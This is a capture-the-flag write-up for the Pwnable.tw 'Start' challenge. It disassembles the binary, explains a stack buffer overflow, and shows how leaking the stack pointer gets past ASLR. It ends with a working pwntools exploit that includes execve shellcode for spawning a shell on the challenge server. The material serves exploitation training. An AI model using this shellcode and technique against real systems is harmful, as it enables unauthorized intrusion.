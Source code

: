 # Pwnable.tw - Start
* Website : Pwnable.tw
* Challenge : Start
* Writeup author : Redhung aka r3dhun9
>Contact : [Philip Chen (Facebook)](https://www.facebook.com/philip.chen.581)

## 0x01
Let's use **objdump** or **r2** to disassemble the binary first :
```asm
push esp ;
push 0x804809d ;
xor eax, eax ;
xor ebx, ebx ;
xor ecx, ecx ;
xor edx, edx ;
push 0x3a465443 ; 'CTF:'
push 0x20656874 ; 'the '
push 0x20747261 ; 'art '
push 0x74732073 ; 's st'
push 0x2774654c ; 'Let''
mov ecx, esp ;
mov dl, 0x14 ; 20
mov bl 1 ; stdout
mov al 4 ; sys_write
int 0x80 ; syscall
xor ebx, ebx ;
mov dl, 0x3c ; 60
mov al, 3 ; sys_read
int 0x80 ; syscall
add esp, 0x14 ;
ret ;
```
We notice that there is a buffer overflow in this program. (Sys_read reads 60 bytes while the return address may be overwritten.)

On this point, we have a clear thought of this challenge. :100: 

We can overwrite the return address to anywhere we want! :+1: 

Let's send the shellcode and overwrite the return address to our shellcode, sweet.

## 0x02
As we thought, we use **gdb** and attach to the process, however, we cannot find the address of our shellcode due to **ASLR**.

Look back to the assembly, the entry point of the stack is stroed at the begining!

```asm
push esp ;
```
That means we can **leak** the entry point and calculate the offset to our shellcode!
Wait wait wait bro, how can we leak the address?
Let's look back to the assembly:
```asm
mov ecx, esp ;
mov dl, 0x14 ;
mov bl, 1 ;
mov al, 4 ; sys_write
```
Once we return to **mov** **ecx,** **esp;** , we will call the sys_write to leak the esp. :revolving_hearts: 

After we get the esp, we just need to calculate the offset to out shellcode and get shell! :ghost: 

## 0x03
Exploit:
```python
from pwn import *

shellcode = '\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

payload = 'A'*20 + p32(0x8048087)

r = remote('chall.pwnable.tw',10000)

rec = r.recv()

r.send(payload)

esp = u32(r.recv(4))

print(hex(esp))

payload2 = 'B'*20 + p32(esp+0x14) + shellcode

r.send(payload2)

r.interactive()
```
